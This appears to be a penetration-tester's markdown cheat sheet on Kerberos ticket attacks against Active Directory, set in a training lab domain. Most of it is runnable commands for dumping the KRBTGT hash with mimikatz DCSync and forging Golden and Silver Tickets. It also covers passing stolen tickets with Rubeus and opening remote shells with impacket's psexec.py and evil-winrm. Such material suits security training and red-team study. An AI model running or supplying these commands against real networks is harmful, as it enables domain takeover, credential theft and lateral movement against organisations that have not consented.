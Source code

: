 # Kerberos Ticket Attacks Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After gaining access to Kerberos environments, I expect to:

- [ ] Forge a **Golden Ticket** to impersonate any domain user (KRBTGT hash required)
- [ ] Forge a **Silver Ticket** to access specific services (service hash only)
- [ ] Use **Pass-the-Ticket** to reuse stolen Kerberos tickets (no password or hash needed)
- [ ] Abuse **TGT/TGS** operations for persistence and lateral movement
- [ ] Authenticate via **PEM/PFX certificates** in high-privilege accounts

---

## ✅ Kerberos Ticket Attacks

### 🪙 Golden Ticket Attack

- Full domain compromise by forging TGT using KRBTGT hash

**🧠 Requirements:**
- KRBTGT hash
- Domain SID
- User to impersonate
- Domain name

```powershell
# On Windows
Get-DomainSID
mimikatz "lsadump::dcsync /user:krbtgt /domain:inlanefreight.local" exit
kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-2974... /rc4:<krbtgt_hash> /ptt
Enter-PSSession dc01
```

```bash
# On Linux
lookupsid.py inlanefreight.local/user@dc01.inlanefreight.local
ticketer.py -nthash <krbtgt_hash> -domain-sid S-1-5-21-... -domain inlanefreight.local Administrator
export KRB5CCNAME=./Administrator.ccache
psexec.py -k -no-pass dc01.inlanefreight.local
```

---

### 🥈 Silver Ticket Attack

- Targeted service access without Domain Controller communication

**🧠 Requirements:**
- Any username
- Target service hash (e.g., CIFS, HTTP)
- Domain SID
- SPN (Service Principal Name)

```powershell
# On Windows
Get-DomainSID
kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21... /rc4:<service_hash> /target:sql01.inlanefreight.local /service:cifs /ptt
dir \\sql01.inlanefreight.local\c$
```

```bash
# On Linux
lookupsid.py inlanefreight.local/user@dc01.inlanefreight.local
ticketer.py -nthash <service_hash> -domain-sid S-1-5-21... -domain inlanefreight.local -spn cifs/sql01.inlanefreight.local Administrator
export KRB5CCNAME=./Administrator.ccache
smbclient.py -k -no-pass sql01.inlanefreight.local
psexec.py -k -no-pass sql01.inlanefreight.local
```

---

### 🪪 Pass-the-Ticket (PTT)

- Reuse valid Kerberos tickets to gain access

```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
Rubeus.exe triage
klist
Rubeus.exe renew /ticket:<base64_ticket> /ptt
dir \\dc01\c$
```

---

### 🎫 TGT & TGS Usage

```bash
# TGS-only access (requires .ccache)
export KRB5CCNAME=/path/to/john.ccache
psexec.py test.local/john@10.10.10.1 -k -no-pass
```

```bash
# TGT generation
KRB5CCNAME=out.ccache getnthash.py test.local/DC01\$ -key <aes256_key>
```

---

### 🔐 Certificate Authentication (PEM / PFX)

```bash
evil-winrm -i 10.10.10.1 -c pub.pem -k priv.pem -S -r EVILCORP
```

---

## 🧠 Quick Recap

- **Golden Ticket**: Grants full domain access using KRBTGT hash (full impersonation). Used for persistence and full control.
- **Silver Ticket**: Grants access to a specific service (CIFS, HTTP, etc.) using only that service’s hash.
- **Pass-the-Ticket**: Reuse dumped .kirbi or .ccache tickets to authenticate without credentials.
- **TGT/TGS**: Native Kerberos mechanisms abused for stealthy access or ticket renewal.
- **PEM/PFX Auth**: Certificate-based login for highly privileged accounts (certs often found in ADCS attacks).

---
